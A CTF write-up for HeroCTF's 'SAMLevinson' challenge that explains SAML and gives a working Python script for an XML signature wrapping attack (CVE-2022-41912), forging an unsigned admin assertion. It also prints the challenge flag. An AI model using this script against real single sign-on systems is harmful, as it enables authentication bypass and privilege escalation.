






# Exploiting CVE-2022-41912: Go SAML XML Assertion Wrapping Validation Vulnerability (HeroCTF v7: SAMLevinson)

***From “simple user” to forged admin with Burp, Python, and a sneaky SAML bug.***

GitHub: https://github.com/a-tan-cyber Contact: a-tan-cyber@protonmail.com
 
**CTF:** HeroCTF v7 – SAMLevinson  
**Difficulty:** medium  
**Tags:** web, SAML, SSO, golang, CVE-2022-41912  

> **Challenge text (from HeroCTF):**  
> This Sam Levinson fan club website seems to hold a secret. However, I get the impression that the login page isn't working... Try to find the flag!  
> We managed to recover a functional account on the IDP, if that helps:  
> `user : oyJPNYd3HgeBkaE%!rP#dZvqf2z*4$^qcCW4V6WM`  
> There is no need for brute force or fuzzing; everything is accessible naturally.  
> There is no benefit in attacking the port associated with the IDP directly, as it is not part of the challenge.  
>  
> Format: `^Hero{\S+}$` – Author: Thib

---

## 0. What the challenge looked like

We have two URLs:

- **IDP (Identity Provider)**: `http://web.heroctf.fr:8081`
    - this is the service that logs you in and proves who you are (e.g., “user” or “admin”). It handles your username/password and then issues a signed token (like a SAML Response) for other apps to trust.
- **APP (Service Provider)**: `http://web.heroctf.fr:8080`
    - this is the actual website you want to access (the “fan club” site in this challenge). It doesn’t ask for your password itself; instead, it trusts the IDP’s login decision.

I did everything from a **Kali Linux VM** in VMware Workstation, using:

- Firefox + **FoxyProxy** (browser extension) → allows sending of web traffic through…
- **Burp Suite** (proxy & decoder/encoder)
    - sits between browser and the web server, enabling interception, viewing, editing, and replaying HTTP requests and responses.
- A small **Python script** to patch the SAML response fast enough to beat the ~1 minute timeout

When we log in via SSO, we land on `/flag` and see:



- Big title: **Hello, user**
- Tag in the top-right: **Simple user**
- Warning: *“You are not part of the "Administrators" group.”*
- Technical details showing SAML attributes like `NameID`, `SessionIndex`, `eduPersonAffiliation`, `uid`.

**Already a huge clue:** we probably just need to convince the app that we’re in the **Administrators** group.

---

### What is SAML and SSO?

- **SAML (Security Assertion Markup Language)**
    
    SAML is an XML-based standard used to send login information between an IDP and an APP. It’s often used for “Login with Corporate Account” style single sign-on (SSO).
    
- **SSO (Single Sign-On)**
    
    SSO is a system where you log in once (usually at an IDP) and then get access to multiple apps without re-entering your password. SAML is one of the common protocols that powers SSO.
    

---

## 1. Setting up interception

Flow I used:

1. Open `http://web.heroctf.fr:8080` in Firefox.



1. Click **SSO Login** → browser gets redirected to the IdP on port `8081`.
2. Log in with the provided user creds.



1. IdP sends us back to the SP with a `POST /saml/acs` containing a giant `SAMLResponse=` parameter.
2. Burp (with FoxyProxy) intercepts that POST.

In Burp’s **Inspector** tab, I used the built‑in **URL decode → Base64 decode** chain to see the raw XML.

---

- **POST**
    
    POST is an HTTP method used when a browser sends data to a server (like forms, logins, or in this case, the SAMLResponse). Unlike GET, the data goes in the request body, not in the URL.
    
- **`/saml/acs`**
    
    `/saml/acs` (Assertion Consumer Service) is the endpoint on the APP that receives SAML Responses from the IDP. It parses and validates the SAML, then decides whether to log you in and as which user/role.
    
- **SAML Response**
    
    A SAML Response is the “envelope” sent from the IDP to the APP after you log in. Inside it, you’ll usually find one or more SAML Assertions that contain your identity and attributes.
    

---

## 2. First look at the SAML response



The decoded XML looked like this (simplified):

```xml
<samlp:Response ...>
  <saml:Issuer>http://web.heroctf.fr:8081/metadata</saml:Issuer>
  <samlp:Status>...</samlp:Status>

  <saml:Assertion ID="id-...">
    <saml:Issuer>...</saml:Issuer>
    <ds:Signature>...</ds:Signature>
    ...
    <saml:AttributeStatement>
      <saml:Attribute FriendlyName="uid" ...>
        <saml:AttributeValue>user</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute FriendlyName="eduPersonAffiliation" ...>
        <saml:AttributeValue>Users</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>

```

Important bits:

- There is **one** `<saml:Assertion>`.
- That assertion is **signed** (`<ds:Signature>...`).
- The *role* / *group* info is in the `eduPersonAffiliation` attribute.
- Our value is `Users`, not `Administrators`.

**My first hypothesis:**

> If I change **Users → Administrators** somewhere in this **XML,** the app should think I’m an **admin** and **show the flag.**
> 

(Spoiler alert: doing it *naively* breaks the signature and the SP rejects us.)

---

- **SAML Assertion**
    
    A SAML Assertion is the part of the SAML Response that actually says “this user is X and has these attributes/roles.” It’s what the APP reads to decide who you are and what you’re allowed to do.
    
- **Signature (in SAML)**
    
    The Signature is a cryptographic seal the IDP puts on the SAML Assertion/Response to prove it hasn’t been tampered with. The APP verifies this signature before trusting the contents.
    
- **Attribute (in SAML)**
    
    Attributes are key–value pairs in the SAML Assertion, like `uid = user` or `eduPersonAffiliation = Administrators`. The APP often uses these attributes to decide permissions.
    
- **XML**
    
    XML is a structured text format used to store and transport data in a readable, tag-based way (like HTML, but for data). SAML messages are encoded as XML documents.
    

---

## 3. Dead end #1 – Just editing the XML

At first I tried the “obvious” thing:

1. In Burp, URL‑decode + Base64‑decode `SAMLResponse`.
2. Manually edit the XML: replace `Users` with `Administrators` inside the existing signed `<saml:Assertion>`.
3. Base64‑encode and URL‑encode the modified XML.
4. Paste it back into `SAMLResponse` and forward the request.

Result:

- The SP (`8080`) responded with **`403 Forbidden`**.

This makes sense: I modified data that is covered by the XML signature, so the signature validation fails.

**Lesson learned:** we **can’t just tamper** with the ***signed* assertion**. We need something more subtle.

---

## 4. New idea – XML Signature Wrapping

The common SAML bug (and the challenge name “SAMLevinson”) suggests an **XML Signature Wrapping** style attack:

- Keep the **original signed assertion** completely intact so the signature still validates.
- Add a **second, unsigned assertion** that we control.
- Hope the app incorrectly picks attributes from the wrong assertion (e.g., the first one it finds, or merges them without checking which assertion was signed).

My plan:

1. Take the original assertion from the XML.
2. Clone it.
3. In the clone (evil assertion):
    - Remove the `<ds:Signature>` block entirely.
    - Change `eduPersonAffiliation` → `Administrators`.
    - Give it a new `ID` so we don’t have duplicate IDs.
4. Append this evil assertion **after** the original one inside `<samlp:Response>`.
5. Re‑encode everything and send it.

If the app:

- validates the signature only on the original assertion,
- but then reads attributes from **all** assertions,

…we might end up with `eduPersonAffiliation` containing both `Users` and `Administrators`.

---

## 5. Automating the XML patch

I first attempted to do the above steps manually purely by hand in Burp. But because there’s a short timeout between logging in and the SP accepting the assertion (about a minute, visible from the `NotOnOrAfter` timestamps in the SAML Response) ,  I kept hitting *403 Forbidden* and couldn’t tell if I’d broken the XML or was just too slow. 

After more than half an hour of frustration and panicked trial-and-error, the “lazy” me gave up on fully manual edits and wrote a tiny script (`fix_saml.py`) to patch the XML quickly and reliably.

`fix_saml.py`:

```python
import sys
import re
import copy
import xml.etree.ElementTree as ET

NS = {
    "saml": "urn:oasis:names:tc:SAML:2.0:assertion",
    "ds":   "http://www.w3.org/2000/09/xmldsig#",
}

for prefix, uri in NS.items():
    ET.register_namespace(prefix, uri)

def main():
    xml_in = sys.stdin.read()

    # 1) Grab the first Assertion as raw text
    m = re.search(r'(<saml:Assertion\b.*?</saml:Assertion>)', xml_in, re.DOTALL)
    if not m:
        sys.exit("[-] No <saml:Assertion> found")

    orig_assertion_xml = m.group(1)

    # 2) Parse that assertion so we can clone & modify it
    orig = ET.fromstring(orig_assertion_xml)

    evil = copy.deepcopy(orig)

    # 3) Remove ds:Signature from the evil assertion
    #    (we cannot forge a valid signature)
    for child in list(evil):
        if child.tag == f"{{{NS['ds']}}}Signature":
            evil.remove(child)

    # 4) Change eduPersonAffiliation -> Administrators
    changed = False
    for attr in evil.findall(".//saml:Attribute", NS):
        if attr.get("FriendlyName") == "eduPersonAffiliation":
            for val in attr.findall("saml:AttributeValue", NS):
                val.text = "Administrators"
                changed = True

    if not changed:
        sys.exit("[-] eduPersonAffiliation attribute not found")

    # 5) Make the evil assertion’s ID unique (avoid duplicate IDs)
    aid = evil.get("ID")
    if aid:
        evil.set("ID", aid + "-admin")

    evil_xml = ET.tostring(evil, encoding="unicode", method="xml")

    # 6) Insert the evil assertion AFTER the original one
    #    (so original signed assertion stays exactly as-is)
    xml_out = xml_in.replace(orig_assertion_xml, orig_assertion_xml + evil_xml, 1)

    print(xml_out)

if __name__ == "__main__":
    main()

```

Steps the script performs:

1. Use a regex to grab the first `<saml:Assertion>...</saml:Assertion>` block as raw XML.
2. Parse that block with `ElementTree`.
3. Deep‑copy it into `evil`.
4. In `evil`:
    - Remove any child whose tag is `ds:Signature`.
    - Find the attribute with `FriendlyName="eduPersonAffiliation"` and set its `AttributeValue` text to `Administrators`.
    - Change its `ID` attribute from e.g. `id-abc...` to `id-abc...-admin`.
5. Serialize `evil` back to XML.
6. Replace the original assertion text in the full document with `orig_assertion_xml + evil_xml`.

Usage:

```bash
# saml.xml contains the decoded original SAML Response
python3 fix_saml.py < saml.xml > saml_mod.xml

```

---

## 6. Putting it all together with Burp

The full flow I used each attempt:

1. Log in via SSO until Burp intercepts the `POST /saml/acs`.
2. Copy the original `SAMLResponse` value into Burp’s **Decoder** and do:
    - URL decode → Base64 decode → save as `saml.xml`.
3. Run the script:
    
    ```bash
    python3 fix_saml.py < saml.xml > saml_mod.xml
    
    ```
    
4. In Burp Decoder:
    - Load `saml_mod.xml`.
    - Base64 encode → URL encode.
    - Copy the encoded string back into the intercepted `SAMLResponse` parameter.
5. Forward the request to `/saml/acs`.



This time the response was **`302 Found` → `Location: /flag`**, meaning the SAML validation passed.

When the browser followed the redirect to `/flag`, the page looked different.

---

## 7. Admin view

The new `/flag` page showed:



- Tag in the corner: **Admin** instead of *Simple user*.
- Green alert: *“Access granted. Here is your flag:”*
- Flag 🎉: `Hero{S4ML_3XPL01T_FR0M_CR3J4M}`.
- Technical details now had:
    - `eduPersonAffiliation: Users, Administrators`

That last line confirms the behaviour: the application merged attributes from **both** assertions (signed + unsigned) without restricting itself to the signed one!

---

## 8. Real-world vuln behind the challenge (CVE-2022-41912)

This challenge is built around a real vulnerability in the Go SAML library **`github.com/crewjam/saml`**, tracked as **CVE-2022-41912**.

Link: [https://nvd.nist.gov/vuln/detail/cve-2022-41912](https://nvd.nist.gov/vuln/detail/cve-2022-41912)

Summary:

- Affected versions of `crewjam/saml` (before 0.4.9) would **accept SAML responses that contained multiple assertions**.
- The library correctly **validated the signature** on one assertion, but then **did not reliably bind the validated assertion to the attributes it used**.
- That made it possible to inject a second, **unsigned** assertion with attacker-controlled attributes (like groups / roles) and have the application treat those attributes as trusted.

That’s exactly what we did here:

- Keep the original, signed assertion from the IdP untouched so the signature still validates.
- Inject a second assertion where `eduPersonAffiliation = Administrators` and no `ds:Signature`.
- The vulnerable SP logic merges attributes from both assertions, so the session ends up with `Users, Administrators` and our role becomes **Admin**.

So while this is a CTF, it’s also a simplified demo of a real-world **authentication bypass** bug.

---

## 9. Takeaways

Things I personally learned from this challenge:

- **SAML is just XML over Base64 over URL‑encoded form data.** Once you peel off those layers, it’s pretty readable.
- **Signatures protect integrity, but only if you use them correctly.** Here, the IdP correctly signed one assertion, but the SP didn’t make sure it was only trusting that signed assertion.
- **XML Signature Wrapping**: a classic bug where you:
    - Keep the signed element intact.
    - Inject a new unsigned element with your own values.
    - Rely on the consumer to pick the wrong one.
- **Burp’s Decoder is enough for many SAML challenges.** No need for fancy plugins when you’re just doing Base64/URL encoding and copy‑pasting.
- **Automation helps with timeouts.** That tiny Python script saved me from manually editing long XML blobs under a 1‑minute timer.

Overall, this was a nice intro to SAML attacks: not much brute force, just understanding the data flow and being a bit sneaky with XML.

---

### Final flag

```bash
Hero{S4ML_3XPL01T_FR0M_CR3J4M}
```

— End of Writeup —
